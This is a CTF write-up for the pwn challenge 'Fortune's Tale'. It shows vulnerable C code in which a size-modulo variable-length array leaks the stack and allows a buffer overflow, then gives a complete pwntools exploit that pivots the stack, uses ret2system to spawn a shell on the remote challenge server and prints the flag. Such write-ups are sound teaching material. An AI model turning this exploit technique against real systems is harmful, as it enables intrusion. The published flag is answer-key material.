

This is a National CTF Challenge, i only solve one but might as well make a write up for fun :)

# Pwn - Fortune's Tale

## Introduction 



## Source Code

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define MAX_SIZE 300


void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}


int main()
{
    init();
    bool end = false;
    while (!end)
    {
        int choice;
        printf("1. Take a fortune\n"
               "2. Share a story\n"
               "3. Exit\n"
               "> ");
        scanf("%d%*c", &choice);
        switch (choice)
        {
        case 1:
            system("fortune");
            break;
        case 2: {
            int size;
            printf("Size: ");
            scanf("%d%*c", &size);
            char buf[size % MAX_SIZE]; #VULN
            printf("Text: ");
            read(0, buf, size);
            write(1, buf, size);
        }
        break;
        case 3: {
            end = true;
        }
        break;
        default:
            printf("Invalid choice\n");
        }
    }
}
```

## Summary

Make `buf` size the same or bigger then `MAX_SIZE` to leak stack and make it buffer overflow. Than use stack leak with fill buffer null byte to fix pivoting stack return. 

## Solution

Given a statically linked binary chall using musl libc and all live protection with Partial Relro.


It can be seen that there are 3 options containing:
- The first option is to run the `system("fortune")` //Not Important
- The second option is to declare a variable with size % `MAX_SIZE`, then read as much size and write to stdout as much size as (just like regular print)
- The third option exits the menu to be used for RIP control

So in option 2 if you provide an input of `MAX_SIZE` which becomes 0, when reading as many as 300 becomes a buffer overflow. For the leak address, you can declare a variable size `MAX_SIZE` so that it becomes a `char buf[0]` and after that is the content of the stack address that can be used as a leak. Next, set the breakpoint after the exit option and analyze what was done.


It can be seen that when choosing the exit option, the instructions to be carried out
Set `eax = 0`
`esp - &[ebp-0xc]`
`pop ecx` (Important where to control the return later)
`pop ebx`
`pop esi`
`pop ebp`
`esp - &[ecx - 4]`
To operate an `eip`, a true `esp` is required. `esp` will change depending on the content of the first `ebp` and `ecx`. To make it easier, i padded until `pop ecx` and set:
`ebp - 0xc = 0`
`ecx - 4 = stack leak`
The padding offset `\x00` is at 44 for `pop ecx` and the rest I spam ret2system to get the shell because in the binary there is a `system` function and the `/bin/sh` string.

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "20.195.43.216", 8001


pid = None


def gdbscript():
    global pid
    gdbscript = f'''
    init-pwndbg
    set sysroot /proc/{pid}/root
    break *main+377
    break *main+362
    c
    '''.format(**locals())
    return gdbscript


def initialize(argv=[]):
    global pid
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript())
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./chall"]).recvall().strip().decode()
        attach(int(pid), gdbscript=gdbscript(), sysroot=f"/proc/{pid}/root", exe='chall')
        return p
    else:
        return process([exe] + argv)


def exploit():
    global io
    io = initialize()
    with log.progress("Leak address"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        io.sendlineafter("Text: ", "")
        io.recv(1)
        leak = io.recvuntil("1. Take a fortune")
    for i in range(40):
        log.info("Leak %#d: %#x", i+1, u32(leak[i*4:(i+1)*4]))
    stack = u32(leak[34*4:35*4]) << 8
    elf.address = (u32(leak[17*4:18*4]) << 8) - 0x10f00
    log.info("Stack: %#x", stack)
    log.info("ELF: %#x", elf.address)
    with log.progress("BOF to win"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        rop = ROP(elf)
        rop.system(next(elf.search(b"/bin/sh\x00")))
        print(rop.dump())
        payload = rop.chain()
        io.sendlineafter("Text: ", b"\x00"*44 + p32(stack) + p32(0) + p32(0) + p32(0) + payload*10)
    io.sendlineafter("> ", b"3")
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == '__main__':
    exploit()
```

### Flag

`ARKAV{__pwn__no__akachan__}`